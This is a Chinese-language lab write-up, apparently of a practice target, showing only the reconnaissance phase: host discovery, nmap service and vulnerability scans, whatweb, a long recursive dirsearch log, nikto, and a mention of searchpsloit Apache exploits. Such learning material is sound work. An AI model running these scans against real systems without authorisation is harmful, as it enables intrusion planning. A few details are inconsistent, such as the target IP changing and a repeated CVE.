# 一、信息收集

1. 主机发现，使用kali的arp-scan扫描，如下，192.168.0.14是vmware主机，应该就是靶机了
   
   ```shell
   arp-scan -l
   ```
   
    

2. 使用nmap扫描端口，如下，开放了22、80、111、443、631、1000、3306端口，系统为centos，web中间件为Apache httpd 2.0.52，631端口允许PUT方法，3306端口有未授权访问
   
   ```shell
   nmap -sV -sC -T4 192.168.0.104
   ```
   
    
   
    

3. 使用whatweb识别一下web服务，发现有PasswordField，是个登录界面
   
   ```shell
   whatweb http://192.168.0.104
   ```
   
    
   
    

4. 扫描一下网站目录，使用dirsearch进行递归扫描，扫描结果如下
   
   ```shell
   dirsearch -u http://192.168.0.104 -i 200,301 -r
   ```
   
   ```shell
   [18:30:33] 200 -  667B  - /index.php                                        
   [18:30:33] 200 -  667B  - /index.php/login/     (Added to queue)            
   [18:30:36] 301 -  315B  - /manual  ->  http://192.168.0.104/manual/     (Added to queue)
   [18:30:36] 200 -    7KB - /manual/index.html
   [18:30:51] Starting: index.php/login/                                        
   [18:31:33] Starting: manual/                                                 
   [18:31:38] 200 -   11KB - /manual/LICENSE                                   
   [18:31:51] 301 -  318B  - /manual/de  ->  http://192.168.0.104/manual/de/     (Added to queue)
   [18:31:51] 301 -  325B  - /manual/developer  ->  http://192.168.0.104/manual/developer/     (Added to queue)
   [18:31:52] 301 -  318B  - /manual/en  ->  http://192.168.0.104/manual/en/     (Added to queue)
   [18:31:52] 301 -  319B  - /manual/faq  ->  http://192.168.0.104/manual/faq/     (Added to queue)
   [18:31:53] 301 -  318B  - /manual/fr  ->  http://192.168.0.104/manual/fr/     (Added to queue)
   [18:31:54] 301 -  321B  - /manual/howto  ->  http://192.168.0.104/manual/howto/     (Added to queue)
   [18:31:54] 200 -    3KB - /manual/images/     (Added to queue)              
   [18:31:54] 301 -  322B  - /manual/images  ->  http://192.168.0.104/manual/images/
   [18:31:55] 200 -    7KB - /manual/index.html                                
   [18:31:55] 200 -   20KB - /manual/install.html                              
   [18:31:57] 200 -   31KB - /manual/logs.html                                 
   [18:31:58] 301 -  320B  - /manual/misc  ->  http://192.168.0.104/manual/misc/     (Added to queue)
   [18:32:03] 301 -  324B  - /manual/programs  ->  http://192.168.0.104/manual/programs/     (Added to queue)
   [18:32:04] 301 -  318B  - /manual/ru  ->  http://192.168.0.104/manual/ru/     (Added to queue)
   [18:32:07] 200 -    4KB - /manual/ssl/     (Added to queue)                 
   [18:32:07] 301 -  321B  - /manual/style  ->  http://192.168.0.104/manual/style/     (Added to queue)
   [18:32:12] Starting: manual/de/                                              
   [18:32:17] 200 -   11KB - /manual/de/LICENSE                                
   [18:32:30] 301 -  317B  - /manual/de/de  ->  http://192.168.0.104/manual/de 
   [18:32:30] 301 -  328B  - /manual/de/developer  ->  http://192.168.0.104/manual/de/developer/     (Added to queue)
   [18:32:31] 301 -  317B  - /manual/de/en  ->  http://192.168.0.104/manual/en 
   [18:32:31] 301 -  324B  - /manual/de/en/admin/  ->  http://192.168.0.104/manual/en/admin/
   [18:32:32] 301 -  322B  - /manual/de/faq  ->  http://192.168.0.104/manual/de/faq/     (Added to queue)
   [18:32:32] 301 -  317B  - /manual/de/fr  ->  http://192.168.0.104/manual/fr 
   [18:32:33] 301 -  324B  - /manual/de/howto  ->  http://192.168.0.104/manual/de/howto/     (Added to queue)
   [18:32:34] 301 -  325B  - /manual/de/images  ->  http://192.168.0.104/manual/de/images/     (Added to queue)
   [18:32:34] 200 -    3KB - /manual/de/images/                                
   [18:32:34] 200 -    7KB - /manual/de/index.html                             
   [18:32:34] 200 -   22KB - /manual/de/install.html                           
   [18:32:36] 200 -   31KB - /manual/de/logs.html                              
   [18:32:38] 301 -  323B  - /manual/de/misc  ->  http://192.168.0.104/manual/de/misc/     (Added to queue)
   [18:32:42] 301 -  327B  - /manual/de/programs  ->  http://192.168.0.104/manual/de/programs/     (Added to queue)
   [18:32:44] 301 -  317B  - /manual/de/ru  ->  http://192.168.0.104/manual/ru 
   [18:32:46] 200 -    4KB - /manual/de/ssl/     (Added to queue)              
   [18:32:46] 301 -  324B  - /manual/de/style  ->  http://192.168.0.104/manual/de/style/     (Added to queue)
   [18:32:52] Starting: manual/developer/                                       
   [18:33:15] 200 -    5KB - /manual/developer/index.html                      
   [18:33:18] 200 -   12KB - /manual/developer/modules.html                    
   [18:33:33] Starting: manual/en/                                              
   [18:33:38] 200 -   11KB - /manual/en/LICENSE                                
   [18:33:50] 301 -  317B  - /manual/en/de  ->  http://192.168.0.104/manual/de 
   [18:33:51] 301 -  328B  - /manual/en/developer  ->  http://192.168.0.104/manual/en/developer/     (Added to queue)
   [18:33:52] 301 -  317B  - /manual/en/en  ->  http://192.168.0.104/manual/en 
   [18:33:52] 301 -  324B  - /manual/en/en/admin/  ->  http://192.168.0.104/manual/en/admin/
   [18:33:52] 301 -  322B  - /manual/en/faq  ->  http://192.168.0.104/manual/en/faq/     (Added to queue)
   [18:33:53] 301 -  317B  - /manual/en/fr  ->  http://192.168.0.104/manual/fr 
   [18:33:54] 301 -  324B  - /manual/en/howto  ->  http://192.168.0.104/manual/en/howto/     (Added to queue)
   [18:33:54] 200 -    3KB - /manual/en/images/     (Added to queue)           
   [18:33:54] 301 -  325B  - /manual/en/images  ->  http://192.168.0.104/manual/en/images/
   [18:33:55] 200 -    7KB - /manual/en/index.html                             
   [18:33:55] 200 -   20KB - /manual/en/install.html                           
   [18:33:57] 200 -   31KB - /manual/en/logs.html                              
   [18:33:58] 301 -  323B  - /manual/en/misc  ->  http://192.168.0.104/manual/en/misc/     (Added to queue)
   [18:34:03] 301 -  327B  - /manual/en/programs  ->  http://192.168.0.104/manual/en/programs/     (Added to queue)
   [18:34:04] 301 -  317B  - /manual/en/ru  ->  http://192.168.0.104/manual/ru 
   [18:34:07] 200 -    4KB - /manual/en/ssl/     (Added to queue)              
   [18:34:07] 301 -  324B  - /manual/en/style  ->  http://192.168.0.104/manual/en/style/     (Added to queue)
   [18:34:13] Starting: manual/faq/                                             
   [18:34:32] 200 -    5KB - /manual/faq/error.html                            
   [18:34:34] 200 -    3KB - /manual/faq/index.html                            
   [18:34:47] 200 -    7KB - /manual/faq/support.html                          
   [18:34:52] Starting: manual/fr/                                              
   [18:34:57] 200 -   11KB - /manual/fr/LICENSE                                
   [18:35:10] 301 -  317B  - /manual/fr/de  ->  http://192.168.0.104/manual/de 
   [18:35:10] 301 -  328B  - /manual/fr/developer  ->  http://192.168.0.104/manual/fr/developer/     (Added to queue)
   [18:35:11] 301 -  324B  - /manual/fr/en/admin/  ->  http://192.168.0.104/manual/en/admin/
   [18:35:11] 301 -  317B  - /manual/fr/en  ->  http://192.168.0.104/manual/en
   [18:35:12] 301 -  322B  - /manual/fr/faq  ->  http://192.168.0.104/manual/fr/faq/     (Added to queue)
   [18:35:13] 301 -  317B  - /manual/fr/fr  ->  http://192.168.0.104/manual/fr 
   [18:35:13] 301 -  324B  - /manual/fr/howto  ->  http://192.168.0.104/manual/fr/howto/     (Added to queue)
   [18:35:14] 301 -  325B  - /manual/fr/images  ->  http://192.168.0.104/manual/fr/images/     (Added to queue)
   [18:35:14] 200 -    3KB - /manual/fr/images/                                
   [18:35:14] 200 -    7KB - /manual/fr/index.html                             
   [18:35:15] 200 -   20KB - /manual/fr/install.html                           
   [18:35:17] 200 -   31KB - /manual/fr/logs.html                              
   [18:35:18] 301 -  323B  - /manual/fr/misc  ->  http://192.168.0.104/manual/fr/misc/     (Added to queue)
   [18:35:23] 301 -  327B  - /manual/fr/programs  ->  http://192.168.0.104/manual/fr/programs/     (Added to queue)
   [18:35:24] 301 -  317B  - /manual/fr/ru  ->  http://192.168.0.104/manual/ru 
   [18:35:26] 200 -    4KB - /manual/fr/ssl/     (Added to queue)              
   [18:35:27] 301 -  324B  - /manual/fr/style  ->  http://192.168.0.104/manual/fr/style/     (Added to queue)
   [18:35:32] Starting: manual/howto/                                           
   [18:35:45] 200 -   20KB - /manual/howto/auth.html                           
   [18:35:47] 200 -   27KB - /manual/howto/cgi.html                            
   [18:35:54] 200 -    6KB - /manual/howto/index.html                          
   [18:36:12] Starting: manual/images/                                          
   [18:36:32] 200 -    1KB - /manual/images/favicon.ico                         
   [18:36:52] Starting: manual/misc/                                             
   [18:37:14] 200 -    5KB - /manual/misc/index.html                            
   [18:37:32] Starting: manual/programs/                                         
   [18:37:54] 200 -    5KB - /manual/programs/index.html                        
   [18:38:12] Starting: manual/ru/                                               
   [18:38:17] 200 -   11KB - /manual/ru/LICENSE                                 
   [18:38:30] 301 -  317B  - /manual/ru/de  ->  http://192.168.0.104/manual/de  
   [18:38:30] 301 -  328B  - /manual/ru/developer  ->  http://192.168.0.104/manual/ru/developer/     (Added to queue)
   [18:38:31] 301 -  317B  - /manual/ru/en  ->  http://192.168.0.104/manual/en  
   [18:38:31] 301 -  324B  - /manual/ru/en/admin/  ->  http://192.168.0.104/manual/en/admin/
   [18:38:32] 301 -  322B  - /manual/ru/faq  ->  http://192.168.0.104/manual/ru/faq/     (Added to queue)
   [18:38:32] 301 -  317B  - /manual/ru/fr  ->  http://192.168.0.104/manual/fr  
   [18:38:33] 301 -  324B  - /manual/ru/howto  ->  http://192.168.0.104/manual/ru/howto/     (Added to queue)
   [18:38:34] 301 -  325B  - /manual/ru/images  ->  http://192.168.0.104/manual/ru/images/     (Added to queue)
   [18:38:34] 200 -    3KB - /manual/ru/images/                                 
   [18:38:34] 200 -    7KB - /manual/ru/index.html                              
   [18:38:35] 200 -   29KB - /manual/ru/install.html                            
   [18:38:37] 200 -   31KB - /manual/ru/logs.html                               
   [18:38:38] 301 -  323B  - /manual/ru/misc  ->  http://192.168.0.104/manual/ru/misc/     (Added to queue)
   [18:38:43] 301 -  327B  - /manual/ru/programs  ->  http://192.168.0.104/manual/ru/programs/     (Added to queue)
   [18:38:44] 301 -  317B  - /manual/ru/ru  ->  http://192.168.0.104/manual/ru  
   [18:38:46] 200 -    4KB - /manual/ru/ssl/     (Added to queue)               
   [18:38:47] 301 -  324B  - /manual/ru/style  ->  http://192.168.0.104/manual/ru/style/     (Added to queue)
   [18:38:52] Starting: manual/ssl/                                              
   [18:39:14] 200 -    4KB - /manual/ssl/index.html                             
   [18:39:32] Starting: manual/style/                                            
   [18:39:47] 200 -  169B  - /manual/style/build.properties                     
   [18:39:49] 301 -  325B  - /manual/style/css  ->  http://192.168.0.104/manual/style/css/     (Added to queue)
   [18:39:55] 301 -  326B  - /manual/style/lang  ->  http://192.168.0.104/manual/style/lang/     (Added to queue)
   [18:40:12] 200 -  701B  - /manual/style/xsl/     (Added to queue)            
   [18:40:12] Starting: manual/de/developer/                                     
   [18:40:34] 200 -    5KB - /manual/de/developer/index.html                    
   [18:40:38] 200 -   12KB - /manual/de/developer/modules.html                  
   [18:40:52] Starting: manual/de/faq/                                           
   [18:41:11] 200 -    5KB - /manual/de/faq/error.html                          
   [18:41:14] 200 -    3KB - /manual/de/faq/index.html                          
   [18:41:26] 200 -    7KB - /manual/de/faq/support.html                        
   [18:41:31] Starting: manual/de/howto/                                         
   [18:41:45] 200 -   20KB - /manual/de/howto/auth.html                         
   [18:41:47] 200 -   27KB - /manual/de/howto/cgi.html                          
   [18:41:53] 200 -    6KB - /manual/de/howto/index.html                        
   [18:42:11] Starting: manual/de/images/                                        
   [18:42:31] 200 -    1KB - /manual/de/images/favicon.ico                      
   [18:42:51] Starting: manual/de/misc/                                          
   [18:43:13] 200 -    5KB - /manual/de/misc/index.html                         
   [18:43:30] Starting: manual/de/programs/                                      
   [18:43:52] 200 -    5KB - /manual/de/programs/index.html                     
   [18:44:11] Starting: manual/de/ssl/                                           
   [18:44:33] 200 -    4KB - /manual/de/ssl/index.html                          
   [18:44:51] Starting: manual/de/style/                                         
   [18:45:06] 200 -  169B  - /manual/de/style/build.properties                  
   [18:45:08] 301 -  328B  - /manual/de/style/css  ->  http://192.168.0.104/manual/de/style/css/     (Added to queue)
   [18:45:14] 301 -  329B  - /manual/de/style/lang  ->  http://192.168.0.104/manual/de/style/lang/     (Added to queue)
   [18:45:30] 200 -  710B  - /manual/de/style/xsl/     (Added to queue)         
   [18:45:31] Starting: manual/en/developer/                                     
   [18:45:53] 200 -    5KB - /manual/en/developer/index.html                    
   [18:45:57] 200 -   12KB - /manual/en/developer/modules.html                  
   [18:46:10] Starting: manual/en/faq/                                           
   [18:46:29] 200 -    5KB - /manual/en/faq/error.html                          
   [18:46:32] 200 -    3KB - /manual/en/faq/index.html                          
   [18:46:45] 200 -    7KB - /manual/en/faq/support.html                        
   [18:46:50] Starting: manual/en/howto/                                         
   [18:47:03] 200 -   20KB - /manual/en/howto/auth.html                         
   [18:47:05] 200 -   27KB - /manual/en/howto/cgi.html                          
   [18:47:12] 200 -    6KB - /manual/en/howto/index.html                        
   [18:47:29] Starting: manual/en/images/                                        
   [18:47:49] 200 -    1KB - /manual/en/images/favicon.ico                      
   [18:48:09] Starting: manual/en/misc/                                          
   [18:48:30] 200 -    5KB - /manual/en/misc/index.html                         
   [18:48:48] Starting: manual/en/programs/                                      
   [18:49:10] 200 -    5KB - /manual/en/programs/index.html                     
   [18:49:27] Starting: manual/en/ssl/                                           
   [18:49:49] 200 -    4KB - /manual/en/ssl/index.html                          
   [18:50:07] Starting: manual/en/style/                                         
   [18:50:21] 200 -  169B  - /manual/en/style/build.properties                  
   [18:50:24] 301 -  328B  - /manual/en/style/css  ->  http://192.168.0.104/manual/en/style/css/     (Added to queue)
   [18:50:29] 301 -  329B  - /manual/en/style/lang  ->  http://192.168.0.104/manual/en/style/lang/     (Added to queue)
   [18:50:45] 200 -  710B  - /manual/en/style/xsl/     (Added to queue)         
   [18:50:46] Starting: manual/fr/developer/                                     
   [18:51:08] 200 -    5KB - /manual/fr/developer/index.html                    
   [18:51:12] 200 -   12KB - /manual/fr/developer/modules.html                  
   [18:51:26] Starting: manual/fr/faq/                                           
   [18:51:46] 200 -    5KB - /manual/fr/faq/error.html                          
   [18:51:49] 200 -    3KB - /manual/fr/faq/index.html                          
   [18:52:01] 200 -    7KB - /manual/fr/faq/support.html                        
   [18:52:06] Starting: manual/fr/howto/                                         
   [18:52:20] 200 -   20KB - /manual/fr/howto/auth.html                         
   [18:52:21] 200 -   27KB - /manual/fr/howto/cgi.html                          
   [18:52:28] 200 -    6KB - /manual/fr/howto/index.html                        
   [18:52:46] Starting: manual/fr/images/                                        
   [18:53:05] 200 -    1KB - /manual/fr/images/favicon.ico                      
   [18:53:25] Starting: manual/fr/misc/                                          
   [18:53:46] 200 -    5KB - /manual/fr/misc/index.html                         
   [18:54:04] Starting: manual/fr/programs/                                      
   [18:54:26] 200 -    5KB - /manual/fr/programs/index.html                     
   [18:54:43] Starting: manual/fr/ssl/                                           
   [18:55:05] 200 -    4KB - /manual/fr/ssl/index.html                          
   [18:55:23] Starting: manual/fr/style/                                         
   [18:55:38] 200 -  169B  - /manual/fr/style/build.properties                  
   [18:55:40] 301 -  328B  - /manual/fr/style/css  ->  http://192.168.0.104/manual/fr/style/css/     (Added to queue)
   [18:55:46] 301 -  329B  - /manual/fr/style/lang  ->  http://192.168.0.104/manual/fr/style/lang/     (Added to queue)
   [18:56:02] 200 -  710B  - /manual/fr/style/xsl/     (Added to queue)         
   [18:56:02] Starting: manual/ru/developer/                                     
   [18:56:25] 200 -    5KB - /manual/ru/developer/index.html                    
   [18:56:29] 200 -   12KB - /manual/ru/developer/modules.html                  
   [18:56:43] Starting: manual/ru/faq/                                           
   [18:57:03] 200 -    5KB - /manual/ru/faq/error.html                          
   [18:57:06] 200 -    3KB - /manual/ru/faq/index.html                          
   [18:57:19] 200 -    7KB - /manual/ru/faq/support.html                        
   [18:57:24] Starting: manual/ru/howto/                                         
   [18:57:37] 200 -   20KB - /manual/ru/howto/auth.html                         
   [18:57:39] 200 -   27KB - /manual/ru/howto/cgi.html                          
   [18:57:45] 200 -    6KB - /manual/ru/howto/index.html                        
   [18:58:03] Starting: manual/ru/images/                                        
   [18:58:23] 200 -    1KB - /manual/ru/images/favicon.ico                      
   [18:58:43] Starting: manual/ru/misc/                                          
   [18:59:06] 200 -    5KB - /manual/ru/misc/index.html                         
   [18:59:24] Starting: manual/ru/programs/                                      
   [18:59:46] 200 -    5KB - /manual/ru/programs/index.html                     
   [19:00:03] Starting: manual/ru/ssl/                                           
   [19:00:25] 200 -    4KB - /manual/ru/ssl/index.html                          
   [19:00:43] Starting: manual/ru/style/                                         
   [19:00:58] 200 -  169B  - /manual/ru/style/build.properties                  
   [19:01:00] 301 -  328B  - /manual/ru/style/css  ->  http://192.168.0.104/manual/ru/style/css/     (Added to queue)
   [19:01:06] 301 -  329B  - /manual/ru/style/lang  ->  http://192.168.0.104/manual/ru/style/lang/     (Added to queue)
   [19:01:22] 200 -  710B  - /manual/ru/style/xsl/
   ```

5. 访问manual目录，是apache http server 2.0的默认界面
    

6. 使用nmap扫描一下主机漏洞，如下扫描出CVE-2007-6750、CVE-2014-0224、CVE-2015-4000、CVE-2007-6750、CVE-2014-3566、CVE-2007-6750
   
   ```shell
   nmap --script=vuln 192.168.0.104
   ```
   
    
   
    
   
    
   
    

7. 使用niikto扫描一下web漏洞
   
   ```shell
   nikto http://192.168.0.104
   ```
   
    

8. 使用searchsploit搜索kali漏洞库中的apache漏洞exp，发现apache http server 2.50以下存在四个代码执行漏洞，加上log4j2的代码执行就有五个apache的代码执行漏洞exp可以利用
